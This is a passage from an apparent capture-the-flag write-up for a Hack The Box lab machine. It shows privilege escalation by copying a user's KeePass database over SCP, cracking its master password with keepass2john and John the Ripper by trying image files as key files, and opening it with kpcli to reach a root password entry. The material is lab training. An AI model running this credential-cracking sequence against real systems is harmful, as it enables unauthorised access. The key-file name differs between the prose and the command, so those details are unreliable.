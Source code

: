 Grab the _user.txt_ flag.

![](https://miro.medium.com/max/509/1*R6wC3M03JDcolhPiiuXZow.png)

We need to escalate privileges.

## Privilege Escalation <a id="c279"></a>

View the content of the home directory.

![](https://miro.medium.com/max/1003/1*BQQEwujyRtsFa7IdP6vcKg.png)

We find a KeePass database. Let’s copy everything into our attack machine. The easiest way to do this is through SCP since SSH is open. \(I’ll leave it up to the reader to figure out how to drop an SSH key in the user’s home directory\)

```text
scp -i id_rsa user@10.10.10.147:* .
```

The KeePass database is password protected. In order to crack the password using John the Ripper \(JtR\), we’ll have to extract a JtR compatible hash of the password. This can be done as follows.

```text
keepass2john MyPasswords.kdbx > hash.txt
```

Then run JtR on the hash.

```text
john --format=KeePass -w /usr/share/wordlists/rockyou.txt hash.txt
```

It doesn’t crack the password. It is possible that they’re using a key file. Since the directory did have a bunch of images, one of these images can be the key file.

```text
for i in *.JPG; do echo "*******Key File: $i"; keepass2john -k $i MyPasswords.kdbx > new-hashes.txt | john --format=KeePass -w /usr/share/wordlists/rockyou.txt new-hashes.txt; done
```

The above code loops through all the images as key files and generates the hash. Then it passes that hash to JtR. We get back the following result.

![](https://miro.medium.com/max/755/1*ARnNV9K6WCEPzMf1assiTA.png)

The key file is “_IMG\_0567.JPG_” and the password is “_bullshit_”. Now we have all the information we need to open the KeePass database. To do that from the command line, we’ll use the kpcli program.

```text
root@kali:~/Desktop/htb/safe/user-home# kpcli --kdb MyPasswords.kdbx --key IMG_0547.JPG
Please provide the master password: *************************KeePass CLI (kpcli) v3.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.kpcli:/> ls
=== Groups ===
MyPasswords/
kpcli:/> cd MyPasswords/
kpcli:/MyPasswords> ls
=== Groups ===
eMail/
General/
Homebanking/
Internet/
Network/
Recycle Bin/
Windows/
=== Entries ===
0. Root password
```